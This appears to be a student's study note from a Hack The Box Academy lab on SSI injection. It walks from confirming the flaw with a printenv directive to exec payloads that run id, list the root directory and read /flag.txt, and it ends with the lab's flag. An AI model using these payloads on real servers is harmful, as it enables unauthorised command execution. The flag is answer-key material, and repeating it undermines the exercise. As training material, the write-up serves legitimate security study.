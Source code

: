```yaml
---
sticker: lucide//server-off
---
```

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`



   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![](Pasted image 20250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![](Pasted image 20250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![](Pasted image 20250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![](Pasted image 20250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
